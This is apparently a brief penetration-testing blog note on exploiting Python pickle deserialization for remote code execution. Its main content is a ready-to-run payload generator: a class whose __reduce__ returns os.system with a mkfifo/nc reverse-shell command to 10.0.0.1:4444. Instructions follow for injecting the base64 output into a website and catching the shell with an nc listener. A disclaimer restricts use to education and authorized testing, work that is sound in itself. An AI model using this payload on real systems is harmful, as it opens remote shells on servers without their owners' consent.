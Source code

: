 ```yaml
---
title: PICKLE RCE
date: 2023-05-05 02:35:40 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


The python “pickle” module, that serializes and deserializes a Python object, is vulnerable to remote code execution. If the website uses this module, we may be able to execute arbitrary code.

# Exploitation
Below is the Python script (”mypickle.py”) to generate the payload to reverse shell.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
 ```

Now run this script to generate the Base64 payload.

```python
python3 mypickle.py
```
Copy the ourput base64 string and paste it to where the payload affects in website.
Before reloading the web page, start a listener in local machine.
```
nc -lvnp 4444
```
Then reload the page. We should get a shell in local terminal.

# References
* https://davidhamann.de/2020/04/05/exploiting-python-pickle/

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```
